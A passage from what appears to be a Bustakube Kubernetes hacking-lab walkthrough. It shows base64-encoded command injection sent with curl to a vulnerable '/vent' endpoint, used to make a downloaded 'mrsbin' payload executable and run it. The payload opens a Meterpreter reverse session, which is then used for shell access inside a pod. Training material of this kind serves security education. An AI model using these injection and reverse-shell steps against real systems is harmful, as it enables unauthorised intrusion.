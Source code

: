 25. Check to make sure that the "mrsbin" file was retrieved and written to the filesystem:

    ```shell
    cmd='ls -l /mrsbin'
    value=$( echo $cmd | base64 -w 0 )
    curl http://bustakube-node-1:30080/vent?cmd=$value
    ```


26. Next, have this `/vent` program make our binary executable and run it. We won't be getting another shell prompt in this tab right now, as this request will be continuing until the `mrsbin` program exists.

    ```shell
    cmd="chmod u+x /mrsbin ; /mrsbin"
    value=$( echo $cmd | base64 -w 0 )
    curl http://bustakube-node-1:30080/vent?cmd=$value
    ```

27. Go back to the Metasploit console window, where you'll see the exploit connect - here's the output on our test system:

    ```
    [*] Meterpreter session 1 opened (10.23.58.30:4444 -> 10.23.58.42:38088) at 2022-08-05 17:17:30 -0400
    ```

28. Interact with that session;

    ```shell
    sessions -i 1
    ```

29. Start a shell

    ```shell
    shell
    ```

30. Start bash -i in this to make it easier to use.

    ```shell
    bash -i
    ```

31. List the current directory:

    ```shell
    ls
    ```

32. Read the contents of `HINT.txt`:

    ```shell
    cat HINT.txt
    ```

33. Let's see what namespace this pod is in.
